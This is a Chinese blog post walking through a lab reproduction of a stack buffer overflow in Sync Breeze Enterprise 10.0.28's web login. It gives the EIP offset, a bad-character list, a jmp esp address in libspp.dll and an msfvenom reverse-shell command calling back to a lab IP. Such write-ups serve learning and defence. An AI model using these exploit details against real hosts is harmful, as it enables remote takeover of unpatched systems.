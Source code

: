#  思路清晰，我是菜B，8小时爆肝windows 32位syncbreeze缓冲区溢出漏洞复现   
原创 泷羽Sec-朝阳  泷羽Sec-朝阳   2025-05-09 12:26  
  
# 一、准备工作  
  
1、windows10 32位虚拟机作为目标靶机、kali作为攻击机 2、Immunity Debugger调试工具+mona脚本、存在漏洞版本的软件Sync Breeze Enterprise v10.0.28 3、syncbreeze 安装完后打开web服务，漏洞点在web服务上  
# 二、登陆页面  
## 1、寻找偏移量  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibyjpzibsXHp9icP3bxj3H7cDdIXxBl6Dbd0L5E9BjwAyetCrhXzsOibIpA/640?wx_fmt=png&from=appmsg "")  
这里一个登录页面，这里F12修改一下输入限制长度  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibTTWryKaNYK1SmVXUDHxUWvyXr6ibXMHJrTUWsWk1VBoUcIibBbpQthoA/640?wx_fmt=png&from=appmsg "")  
然后这里生成800个A的脏数据，我们输入一下尝试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibjPcvDuf4VaPQ5DWicmRnprO3030gYYklb9hJzjdu5zvcA7XgcBhuxyw/640?wx_fmt=png&from=appmsg "")  
ok，这里输入了800个A发生报错，程序崩溃  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYib7t4IfOgpDENKXxZLa9DjyvYlgHic1mdUEmibj6Dsa70kIL7eIcUoicmAg/640?wx_fmt=png&from=appmsg "")  
这里我们重启服务，因为输入了超过限制的字符导致服务宕掉了![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibWUByBCqVt8icibAyp6vOIebL5on6m7kCWIO7jzeykRYuo6vv9zhhcn4w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibiaF9HpmCMUNPc1qxW6wso9QUvHqWicKQcbzcZqBibsIvaAnlQoC1hdiccQ/640?wx_fmt=png&from=appmsg "")  
当我们向我们的网页发送了800个A发现程序崩掉了，并且程序都覆盖了A![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYib7qh8zUkvThXfG1yw9r1BTPnNomQGOKQ5YTDlpR2aUboPfDqjgoLe6Q/640?wx_fmt=png&from=appmsg "")  
这里EIP也被覆盖了，那我们想方法找到EIP的地址，这里可以使用注入一串不重复的字符串，这样就能确定我们的EIP位置了d![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibU0h3lja3BERKnmgmXYoLCtEU6CpF1dhjw3vTYCOkzOmlCViaSFRGtuQ/640?wx_fmt=png&from=appmsg "")  
这里丢一段脏数据，我们再来观察一下EIP的数据是什么 然后接下来我们查找偏移量，使用msf查询一下 msf-pattern_offset -l 800 -q 42306142![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibGSxZyicbl6JicjQicz2bpyA0Mf25hNeWyKYy6j5d16hkfQtNFZXTGQXlg/640?wx_fmt=png&from=appmsg "")  
那么这里偏移量为780，那么我们的第781-784四个字节就会被写入到EIP寄存器里面，我们验证一下  
## 2、验证偏移量  
  
那么我们把前780个字符写为A，781-784写成B，后面再写成C来验证我们是否找到了正确的偏移量  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibEDpOfWhWoW8u1v6qVicMbQKia3YEt47ZcEs94RZGY292KIj4uibZj9z2Q/640?wx_fmt=png&from=appmsg "")  
这样我们就验证成功了，42424242也就是四个B的意思，那我们EIP的返回地址就是780-784![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYib6Y6Bllp6hU7sastEMDk5JHR7iaUu8lgxibOsqhhRmibRl1IASkcEmMoww/640?wx_fmt=png&from=appmsg "")  
也就是对应的这个位置  
## 3、测试可写入字符量  
  
这里我们插入1500个字符来测试一下，1减去我们之前的780个A，4个B，四个C，哪减去的剩下的就是我们可以写入的字符数量![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibrpc0Zl6YutkL44gic3bgNxEkZMjXMvyxibmHygb4iaAWpeaeqhHDjY0BQ/640?wx_fmt=png&from=appmsg "")  
从这里开始0076744c-00767710这就是我们可插入的字符，也就是这些空间可以让我们写shell![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibmQc9dNyCPPibKFW4hmEH3gmN98aAicTModiazgI3qXggLvZ07SzeprYrA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibtUYloiayqmbNhicUVDGCOV6YEZhjPRtBGlaYhDbzKuEgxhwVvCfP4iaBQ/640?wx_fmt=png&from=appmsg "")  
## 4、测试坏字符  
  
这是所有坏字符，诶个尝试  
```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```  
## 5、寻找 jmp esp指令的内存地址  
  
利用EIP返回，指向一个固定不变的地址，就是栈顶，找jmp esp jmp：是“Jump”的缩写，意为“跳转”。这个指令会导致程序的执行流跳转到指定的地址。 esp：指的是ESP寄存器的值，它当前指向堆栈的顶部。  
  
在kali 利用msf-nasm_shell转换jmp esp成16进制操作数 msf-nasm_shell jmp esp jmp esp的十六进制：FFE4![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibNJXd5NI2V2F9F51qAiaqUzL1FuATBuYzMByum5dSABZWBiapGjzlzg9Q/640?wx_fmt=png&from=appmsg "")  
然后运用一个mona插件,先列出加载到所有模块 !mona modules 然后我们找到一个安全性比较低的命令，并寻找有没有jmp esp这条指令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibveU2KY4DAYlkQ9dsLZVwnF6C5ZnPHYG9FEMmT4cD3wbrSOIzMuDBHw/640?wx_fmt=png&from=appmsg "")  
这个程序发现安全性很低，libspp.dll动态链接库没有启用安全机制![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibBMFvDPOeXvhFO05HSqO6PILEYicvy5ibibIeLY8qwWKBOumjhQNTA6Gog/640?wx_fmt=png&from=appmsg "")  
接下来我们来查找一下这个程序地址![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibIx8juuRSaRKVKDRWPYTqpJbn88BwhCHrEiaak2DdBxicTarhLv1NkurQ/640?wx_fmt=png&from=appmsg "")  
这里发现这个程序有这条命令，那么我们复制一下地址0x10090c83，然后我们搜索该地址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibibZGRqp5t1ib7Tia7o2LXy7738wYQuSG0aqTWsbh3ozOABK6VVb9g0hWw/640?wx_fmt=png&from=appmsg "")  
找到了，是一个FFE4的jmp esp，并且把他的地址转化为16进制\x83\x0c\x09\x10也就是这样的形式  
## 6、shell反连  
  
反弹shell kali使用msf生成反弹shell 使用-b参数过滤掉坏字符  
  
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.66.129 LPORT=8888 -f c -b "\x00\x0A\x0D\x25\x26\x2B\x3D" EXITFUNC=thread  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibaEkCU8z0hxKWKAGdERIcoaCicpMrqsX8BkaK0k8ibkEMria8X75SNQiagA/640?wx_fmt=png&from=appmsg "")  
然后我们生成这样一个反连shell的脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT29picH7ciaUFVnUF6TvAyAYibiadSia686lMJszsxYgH6Q0iaXX7fkicTjDpa82qwg1N1OnuermX6fu2kpQ/640?wx_fmt=png&from=appmsg "")  
拿下了，这东西太恶心了，做了一下午，跑步去了兄弟们  
  
  
